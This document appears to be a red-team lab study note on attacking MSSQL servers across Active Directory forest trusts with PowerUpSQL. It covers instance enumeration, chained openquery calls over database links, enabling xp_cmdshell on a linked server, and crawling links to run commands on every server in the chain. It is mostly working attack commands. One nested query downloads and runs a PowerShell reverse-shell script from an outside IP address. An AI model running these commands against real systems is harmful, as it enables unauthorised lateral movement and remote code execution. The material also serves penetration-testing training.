 # Cross Forest Attacks - MSSQL Servers

- [Cross Forest Attacks - MSSQL Servers](#cross-forest-attacks---mssql-servers)
  - [MSSQL Servers](#mssql-servers)
  - [Enumeration](#enumeration)
  - [Database links](#database-links)
  - [Searching Database Links](#searching-database-links)
  - [Executing Commands](#executing-commands)
  - [Abusing Database Links](#abusing-database-links)

---

## MSSQL Servers

MS SQL servers are generally deployed in plenty in a Windows domain. MSSQL Servers provide very good options for lateral movement as they **allow mapping domain users to database roles** and thus become part of AD trusts.

Let's see one scenario where we can abuse SQL servers trust and database links to move across forest trust boundaries. For MSSQL and PowerShell hackery, lets use **PowerUpSQL**:

- https://github.com/NetSPI/PowerUpSQL

```
. C:\AD\Tools\PowerUpSQL.psd1
```

<br/>

---

## Enumeration

<br/>

To discover MSSQL instances:

```
Get-SQLInstanceDomain
```

<br/>

To check accessibility:

```
Get-SQLConnectionTestThreaded
```

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

<br/>

Gather information about the MSSQL instances:

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

<br/>

---

## Database links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. 

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.

Database links work even across forest trusts.

<br/>

---

## Searching Database Links

Look for links to remote servers:

```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

Note we can also enuemrate linked servers manually:

```
select * from master..sysservers
```

<br/>

`Openquery` function can be used to run queries on a linked database:

```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

`Openquery` queries can be chained to access links within links (nested links)

```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

<br/>

---

## Executing Commands

On the target server, either `xp_cmdshell` should be already enabled; or if `rpcout` is enabled (**disabled by default**), `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "db-sqlsrv"
```

<br/>

From the initial SQL server, OS commands can be executed using nested link queries:

```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version; exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.64/Invoke-PowerShellTcp.ps1'''')"'')')
```

<br/>

---

## Abusing Database Links

Crawling links to remote servers:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

<br/>

Abusing links to remote servers (tries to use `xp_cmdshell` on every link of the chain):

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami'''
```

---
